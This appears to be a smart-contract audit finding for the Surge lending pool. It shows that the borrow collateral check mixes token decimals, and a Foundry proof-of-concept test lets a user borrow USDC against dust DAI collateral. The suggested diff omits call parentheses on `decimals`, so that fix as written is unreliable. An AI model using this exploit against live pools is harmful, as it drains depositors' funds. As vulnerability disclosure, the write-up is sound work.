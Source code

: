 joestakey

high

# Borrowers can get undercollateralized loans if loan and collateral tokens have different decimals

## Summary
Because the collateralization ratio checks in `borrow` does not work when the two tokens have different decimals, borrowers can get undercollateralized loans.

## Vulnerability Detail
When borrowing, the function checks the debt does not exceed the maximum collateralization ratio:

```solidity
src/Pool.sol
474: uint userCollateralRatioMantissa = userDebt * 1e18 / collateralBalanceOf[msg.sender];
475:         require(userCollateralRatioMantissa <= _currentCollateralRatioMantissa, "Pool: user collateral ratio too high");
```

The issue is that `userDebt` is in `LOAN_TOKEN` decimals, while `collateralBalanceOf[msg.sender]` is in `COLLATERAL_TOKEN` decimals.

This means `userCollateralRatioMantissa` value will be greater or lower than expected if the tokens have different decimals.

If `COLLATERAL_TOKEN` decimals has higher decimals than `LOAN_TOKEN`, a user will be able to get an undercollateralized loan.

Let us take the example of a `DAI/USDC` pool (`DAI` collateral, `USDC` loan). For simplicity the `MAX_COLLATERAL_RATIO_MANTISSA` will be 100%:

- Bob `deposits` `200 USDC` in the pool.
- Alice calls `addCollateral`, adding `1e-10 DAI` to the pool (ie `100e6` wei.)
- Alice calls `borrow(Alice, 100 USDC)`.  
- `userCollateralRatioMantissa = userDebt * 1e18 / collateralBalanceOf[msg.sender]`
-                             `= 100e6 * 1e18 / 100e6`
-                             `= 1e18`
- This passes the collateralization check, and the function call succeeds
- Alice managed to borrow `100 USDC` for free (she only deposited dust `DAI` as collateral).

Add the following test to `Pool.t.sol`:
```Solidity
function testAuditUnderCollateralizedLoanDecimals() external {
        MockERC20 collateralToken = new MockERC20(1000e18, 18); // DAI
        MockERC20 loanToken = new MockERC20(1000e6, 6); //USDC
        address Alice = address(1);
        collateralToken.mint(Alice, 100e18);

        Pool pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 1e18, 0.8e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
        
        // 1- We deposit 100 USDC in the pool
        loanToken.approve(address(pool), 200e6);
        pool.deposit(200e6);
        
        vm.startPrank(Alice);
        // 2- Alice adds 1e-10 DAI (1e8 wei) as collateral
        collateralToken.approve(address(pool), 100e6);
        pool.addCollateral(Alice, 100e6); 

        // 3- Alice borrows 100 USDC
        uint256 balanceAliceBefore = loanToken.balanceOf(Alice);
        pool.borrow(100e6);

        uint256 balanceAliceAfter = loanToken.balanceOf(Alice);
        uint256 balanceAliceDAI = collateralToken.balanceOf(Alice);

        // 4- Alice has borrowed 100 USDC, and still has her 100 DAI (minus that dust used for collateralization)
        assertApproxEqRel(balanceAliceAfter - balanceAliceBefore, 100e6, 1e16); //1% delta
        assertApproxEqRel(balanceAliceDAI, 100e18, 1e16); //1% delta
        vm.stopPrank();
    }
```

Note that you also need to add the following function to `MockERC20.sol`

```solidity
function mint(address to, uint amount) external {
    balanceOf[to] += amount;
}
```

## Impact
Borrowers can get undercollateralized loans and steal from depositors.

In the other situation (loan token has greater decimals than collateral), users with enough collateral will not be able to get a loan.

## Code Snippet
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L474

## Tool used
Manual Review, Foundry

## Recommendation
```diff
src/Pool.sol
-474: uint userCollateralRatioMantissa = userDebt * 1e18 / collateralBalanceOf[msg.sender];
+474: uint userCollateralRatioMantissa = COLLATERAL_TOKEN.decimals > LOAN_TOKEN.decimals ?
+       userDebt * 1e18 * 10**(COLLATERAL_TOKEN.decimals - LOAN_TOKEN.decimals) / collateralBalanceOf[msg.sender]
+       :
+       userDebt * 1e18  / collateralBalanceOf[msg.sender] / 10**(LOAN_TOKEN.decimals - COLLATERAL_TOKEN.decimals);
475:         require(userCollateralRatioMantissa <= _currentCollateralRatioMantissa, "Pool: user collateral ratio too high");
```